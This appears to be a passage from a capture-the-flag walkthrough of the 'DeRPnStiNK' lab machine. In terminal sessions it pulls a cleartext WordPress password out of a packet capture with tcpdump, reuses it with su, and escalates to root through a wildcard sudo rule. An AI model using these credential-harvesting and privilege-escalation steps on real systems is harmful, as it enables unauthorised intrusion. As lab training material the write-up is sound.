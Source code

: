 
    stinky@DeRPnStiNK:~$ cat .bash_history 
    ...
    tcpdump -r derpissues.pcap
    tcpdump -r derpissues.pcap | less
    tcpdump -r derpissues.pcap | grep pass
    tcpdump -r derpissues.pcap | grep pas
    tcpdump -r derpissues.pcap | grep pa
    tcpdump -r derpissues.pcap | grep user
    tcpdump -r derpissues.pcap | grep pwd
    tcpdump -r derpissues.pcap | grep derp
    tcpdump -r derpissues.pcap
    su mrderp
    ...
    

    stinky@DeRPnStiNK:~$ cat ftp/files/network-logs/derpissues.txt 
    12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?
    12:07 stinky: yeah. did you need a password reset?
    12:07 mrderp: I think i accidently deleted my account
    12:07 mrderp: i just need to logon once to make a change
    12:07 stinky: im gonna packet capture so we can figure out whats going on
    12:07 mrderp: that seems a bit overkill, but wtv
    12:08 stinky: commence the sniffer!!!!
    12:08 mrderp: -_-
    12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?
    12:11 mrderp: awesome it works!
    12:12 stinky: we really are the best sysadmins #team
    12:13 mrderp: i guess we are...
    12:15 mrderp: alright I made the changes, feel free to decomission my account
    12:20 stinky: done! yay


    stinky@DeRPnStiNK:~/Documents$ tcpdump  -r derpissues.pcap  -A  | grep 'log=mrderp' 
    reading from file derpissues.pcap, link-type LINUX_SLL (Linux cooked)
    log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1



## mrderp privilege


    stinky@DeRPnStiNK:~/Documents$ su mrderp
    Password: derpderpderpderpderpderpderp

## Get root

    mrderp@DeRPnStiNK:/home/stinky/Documents$ sudo -l
    [sudo] password for mrderp: derpderpderpderpderpderpderp
    Matching Defaults entries for mrderp on DeRPnStiNK:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User mrderp may run the following commands on DeRPnStiNK:
        (ALL) /home/mrderp/binaries/derpy*
    mrderp@DeRPnStiNK:/home/stinky/Documents$ cat /home/mrderp/binaries/derpy*
    #/bin/bash
    /bin/bash
    mrderp@DeRPnStiNK:/home/stinky/Documents$ sudo /home/mrderp/binaries/derpy*
    root@DeRPnStiNK:/home/stinky/Documents# id
    uid=0(root) gid=0(root) groups=0(root)
